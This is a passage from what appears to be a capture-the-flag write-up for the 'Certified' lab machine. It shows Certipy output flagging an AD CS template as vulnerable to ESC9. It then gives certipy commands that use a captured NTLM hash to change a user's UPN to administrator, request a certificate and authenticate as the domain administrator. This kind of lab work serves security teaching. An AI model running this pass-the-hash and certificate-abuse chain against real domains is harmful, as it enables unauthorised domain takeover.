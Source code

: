 ```bash
    Enrollment Agent                    : False 
    Any Purpose                         : False 
    Enrollee Supplies Subject           : False 
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False 
    Requires Key Archival               : False 
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension

```

We find the CA `certified-DC01-CA` vulnerable to [ESC9](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension).

We need to run the following commands to exploit this CA.

```bash
certipy account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn administrator
certipy req -username "ca_operator@certified.htb" -p 'P@ssword123' -target "10.10.11.41" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
certipy account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn ca_operator
certipy auth -pfx 'administrator.pfx' -domain "certified.htb"
```
